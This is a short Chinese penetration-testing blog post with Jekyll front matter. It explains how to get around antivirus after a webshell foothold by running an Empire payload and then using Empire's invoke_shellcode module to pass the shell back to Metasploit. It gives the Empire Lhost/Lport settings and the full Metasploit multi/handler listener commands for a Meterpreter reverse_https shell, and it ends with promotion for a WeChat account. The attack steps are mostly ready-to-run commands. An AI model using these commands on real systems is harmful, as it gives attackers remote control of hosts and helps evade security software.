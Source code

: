 ```yaml
---
layout: post
category: binghe-code-hack
title: Empire 反弹回 Metasploit
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Empire 反弹回 Metasploit
lock: need
---
```


# Empire 反弹回 Metasploit

在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时，可以使用PowerShell来绕过，也可以执行Empire的Payload来绕过，成功之后再使用Empiore的模块将其反弹回Metasploit。 这里使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

```
set Lhost 192.168.31.247
set Lport 4444
```

![img](https://img-blog.csdnimg.cn/2019010920450179.jpg)

在MSF上设置监听，命令如下：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 192.168.31.247
set lport 4444
run
```

运行后，就可以收到Empire反弹回来的Shell

![img](https://img-blog.csdnimg.cn/20190109204848442.jpg)

# 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
